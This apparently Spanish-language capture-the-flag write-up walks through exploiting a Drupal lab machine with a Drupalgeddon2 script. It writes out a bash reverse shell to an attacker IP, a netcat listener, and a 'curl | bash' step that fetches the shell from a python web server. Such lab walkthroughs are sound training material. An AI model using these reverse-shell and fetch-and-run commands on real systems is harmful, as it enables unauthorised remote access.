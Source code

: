 ### Druppalgeddon {-}

```bash
ruby druppalgeddon2.rb 10.10.10.233
whoami
#Output
> apache
ifconfig
#Output
> 10.10.10.233
```

Entablamos ahora una reverse shell para sacarse de este contexto.

1. maquina de atacante

    ```bash
    nc -nlvp 443
    ```

1. druppalgeddon2 shell

    ```bash
    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    ```

Esto no functiona porque el comando contiene **bad chars**. Como la maquina no tiene **nc** ni **ncat** la tecnica seria la siguiente:

1. Creamos un archivo *index.html* que contiene

    ```html
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    ```

1. Compartimos un servidor web con *python*

    ```bash
    python3 -m http.server 80
    ```

1. En la drupalgeddon2 shell

    ```bash
    curl -s 10.10.14.20 | bash
    ```
    
ya esta...

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
```

En este caso no nos va el tratamiento de la **TTY**. En este caso lo que hacemos es utilizar el `rlwrap nc -nlvp 443`
